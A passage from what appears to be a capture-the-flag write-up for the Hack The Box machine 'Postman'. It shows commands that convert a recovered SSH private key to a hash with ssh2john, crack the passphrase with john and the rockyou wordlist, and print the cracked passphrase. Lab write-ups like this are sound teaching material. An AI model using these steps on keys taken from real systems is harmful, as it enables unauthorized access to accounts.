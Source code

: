 ```bash
chmod 600 matt_rsa
```

```bash
ssh -i matt_rsa Matt@postman.htb
```

![sshPassphrase2.png](/assets/img/Postman/sshPassphrase2.png)

Unfortunately we need passphrase to be able to log in. We can convert private key into a hash and obtain the password by subsequently cracking this hash. First I used `ssh2john` from John the Ripper suite which transforms SSH private keys to john format hash suitable for cracking by `john` which is also part of JTR suite. 

```bash
ssh2john matt_rsa > matt_hash
```

Next I cracked password by using `john`

```bash
john matt_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![john.png](/assets/img/Postman/john.png)

```
computer2008
```
